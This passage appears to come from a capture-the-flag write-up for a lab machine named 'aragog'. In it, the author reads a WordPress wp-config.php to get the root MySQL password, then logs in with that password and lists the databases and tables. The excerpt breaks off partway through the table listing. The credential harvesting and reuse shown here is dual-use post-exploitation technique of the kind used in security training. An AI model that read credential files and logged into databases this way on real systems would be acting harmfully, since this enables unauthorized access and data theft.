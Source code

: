 Because it’s a WordPress site, we know where to find db creds:

```

florian@aragog:/var/www/html/dev_wiki$ cat wp-config.php | grep -A17 "MySQL settings - "
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp_wiki');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '$@y6CHJ^$#5c37j$#6h');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```

Now use them to check out the db:

```

florian@aragog:/var/www/html/dev_wiki$ mysql -u root -p'$@y6CHJ^$#5c37j$#6h'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 148
Server version: 5.7.20-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wp_wiki            |
+--------------------+
5 rows in set (0.00 sec)

mysql> use wp_wiki
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wp_wiki     |
+-----------------------+
| wp_commentmeta        |
```